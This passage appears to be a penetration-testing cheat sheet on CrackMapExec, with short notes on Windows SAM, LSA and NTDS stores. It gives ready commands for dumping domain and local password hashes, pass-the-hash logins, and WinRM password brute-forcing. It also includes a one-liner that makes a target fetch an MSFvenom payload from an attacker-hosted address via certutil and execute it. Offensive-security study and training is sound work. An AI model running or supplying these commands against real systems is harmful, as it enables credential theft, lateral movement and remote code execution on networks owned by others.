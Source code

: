 - -u                                           ---> Username
- -p                                           ---> Passowrd
- --sessions                             ---> Command to list current sessions


Command (Dump Hash | sam, lsa, ntds)
```
# Take note you need a valid account to perform the following
crackmapexec smb IP -u 'Valid-User' -p 'Valid-Pass' --ntds
```

- -u                                           ---> Username
- -p                                           ---> Passowrd
- --ntds                                    ---> Type of Hash (can use sam, lsa or ntds)

Difference between those elements
	The `SAM` file is a database that stores information about local user accounts on a Windows system. It is used to authenticate local users on the system and is typically stored on the system drive in the `%SYSTEMROOT%\system32\config` directory. Stores information about user accounts on a local computer, including their passwords and security identifiers (**SIDs**)
	ㅤ
	The `LSA` is a component of the Windows operating system that is responsible for handling security requests. It is responsible for authenticating users, granting access to resources, and enforcing security policies. The LSA is not a standalone file, but rather a component of the operating system.
	ㅤ
	The `NTDS` file is a database that stores information about objects in an Active Directory domain, including users, groups, and computers. It is used to authenticate users in an Active Directory domain and is typically stored on the system drive in the `%SYSTEMROOT%\NTDS` directory.



Command (Run Custom Command (Example MSFvenom payload))
```
# Take note you need a valid account to perform the following
crackmapexec smb IP -u 'Valid-User' -p 'Valid-Pass' -x 'certutil -urlcache -f http://IP:PORT/PAYLOAD_NAME.exe payload_name.exe && cmd /c payload_name.exe'
``````

- -u                                           ---> Username
- -p                                           ---> Passowrd
- -x                                           ---> Command to run on the machine
	- IP:PORT                          ---> Port we are hosting the payload
	- cmd /c                            ---> Run the command (program)


Pass the Hash
```
crackmapexec smb IP -u USERNAME -H 32196B56FFE6F45E294117B91A83BF38 -x COMMAND
```
  ---> More information: [[3 - Authentication Relays (Responder)]]


## Winrm

Command
```
# Brute Force
crackmapexec winrm IP -u 'administator' -p 'WORDLIST'

# Sign In testing and Commands
crackmapexec winrm IP -u 'USER' -p 'PASS' -x "ipconfig"
```

